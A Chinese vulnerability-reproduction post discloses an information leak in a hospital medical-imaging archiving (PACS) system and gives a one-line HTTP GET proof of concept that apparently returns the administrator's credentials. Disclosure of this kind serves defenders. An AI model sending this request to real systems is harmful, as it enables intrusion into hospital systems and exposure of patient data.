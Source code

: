 #  【漏洞复现】英飞达医学影像存档与通信系统WebUserLogin.asmx存在信息泄露   
 什么安全   2024-12-09 02:12  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！  
  
**产品介绍**  
  
英飞达医学影像存档与通信系统 Picture Archiving and Communication System，它是应用在医院影像科室的系统，主要的任务就是把日常产生的各种医学影像通过各种接口以数字化的方式海量保存起来，当需要的时候在一定的授权下能够很快的调回使用，同时增加一些辅助诊断管理功能。它在各种影像设备间传输数据和组织存储数据具有重要作用。  
  
漏洞描述  
  
英飞达医学影像存档与通信系统 WebUserLogin.asmx 接口存在信息泄露漏洞，攻击者可通过该漏洞获取系统管理员账户密码信息，登录系统获取敏感信息。  
  
漏洞版本  
  
VER 3.0.11.5_B9P0  
  
Poc  
```
GET /webservices/WebUserLogin.asmx/GetUserInfoByUserID?userID=admin HTTP/1.1
Host: IP
```  
  
漏洞复现  
  
![](https://mmbiz.qpic.cn/mmbiz_png/w0DeFbFI15yEpmQfhtedCk0icl7LWRenrZCiaOX8fQxic72cc8JLmAic789MOaRkblLZdVNpRZrM6NLIjGBr8IhgxA/640?wx_fmt=png&from=appmsg "")  
  
小  
知  
识  
  
  
  
  
**依据《刑法》第285条第3款的规定，犯提供非法侵入或者控制计算机信息罪的，处3年以下有期徒刑或者****拘役****，并处或者单处****罚金****;情节特别严重的，处3年以上7年以下有期徒刑，并处罚金。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gn0JbCnxttRbj4Mib3fcSfwr0tP4UxXtjf47HFwaZcgwWStzGNLNMlGKQJz902fHTT8PCfOwHedLqarXh0eC9KQ/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
声  
明  
  
  
  
**本文提供的技术参数仅供学习或运维人员对内部系统进行测试提供参考，未经授权请勿用本文提供的技术进行破坏性测试，利用此文提供的信息造成的直接或间接损失，由使用者承担。**  
  
  
  
